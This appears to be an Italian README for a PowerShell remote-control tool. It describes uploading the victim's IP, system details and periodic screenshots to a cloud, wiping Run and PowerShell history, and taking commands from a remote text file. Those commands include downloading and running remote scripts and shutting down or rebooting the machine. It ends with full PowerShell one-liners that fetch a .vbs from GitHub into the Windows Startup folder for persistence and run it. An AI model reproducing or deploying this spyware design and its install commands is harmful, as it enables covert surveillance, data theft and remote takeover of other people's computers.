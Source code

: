  #FUNZIONALITÀ:
  - cancella cronologia esegui e cronologia powershell
  - carica un file con l'indirizzo ip del dispositivo
  - carica un file con alcune informazioni sul dispositivo
  - carica ogni "interval" secondi lo screenshot dello schermo
  - controllo ogni "command_control" screenshot un file .txt di comando


 FILE DI SUPPORTO:
  - file .json di configurazione per impostare il programma appena avviato
  - file .txt di comando per gestire il programma durante l'esecuzione
  - file .exe salvato nella cartella di startup che esegue il programma all'avvio del computer


 COMANDI:
  - startScreen: avvia l'operazione di creazione e salvataggio screenshot
  - pauseScreen: mette in pausa l'operazione di creazione e salvataggio sreenshot
  - stopScript: termina l'esecuzione del programma
  - clearFiles: elimina tutti i file del programma contenuti nel computer
  - runCode: esegue un file esterno tramite un job in asincrono
	    - <nomeFile>: scarica il file <nomeFile> dalla cartella scripts del cloud
	    - numberCode <n>: scarica il file dall'n-esimo url del file .json
  - offPC: spegne il computer
  - restartPC: riavvia il computer


 SINTASSI COMANDI: <destinatario> <comando> <n>
  - destinatario: nome del computer a cui far eseguire il comando
	    - NOME-ES: solo il computer NOME-ES
	    - !NOME-ES: tutti i computer eccetto NOME-ES
	    - ALL: ogni dispositivo
  - comando: comando da eseguire
  - n: quante volte eseguire il comando
	    - n > 0: il comando viene eseguito n volte e al termine il file .txt viene sovrascritto da un file vuoto
	    - n = 0 o "": il comando viene eseguito all'infinito




COMANDO PER IL DOWNLOAD DEL FILE .vbs NELLA CARTELLA DI AVVIO DEL COMPUTER (comando da eseuire all'interno di Windows Run: Win + r)
 - powershell -Command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/simonemichele05/PowershellProgetto/main/avvio.vbs -OutFile ($env:appData + '\Microsoft\Windows\Start Menu\Programs\Startup\avvio.vbs')"


COMANDO PER L'AVVIO DEL FILE .vbs NELLA CARTELLA DI AVVIO DEL COMPUTER (il comando in realtà è superfluo: il file verrà comunque eseguito all'avvio del computer)
 - powershell -Command ".($env:appData + '\Microsoft\Windows\Start Menu\Programs\Startup\avvio.vbs')"


COMANDO PER IL DOWNLOAD E PER L'ESECUZIONE DEL FILE .vbs (PROBLEMA: il comando è troppo lungo e non può essere eseguito)
 - powershell -Command "Invoke-WebRequest -Uri https://raw.githubusercontent.com/simonemichele05/PowershellProgetto/main/avvio.vbs -OutFile ($env:appData + '\Microsoft\Windows\Start Menu\Programs\Startup\avvio.vbs'); .($env:appData + '\Microsoft\Windows\Start Menu\Programs\Startup\avvio.vbs')"
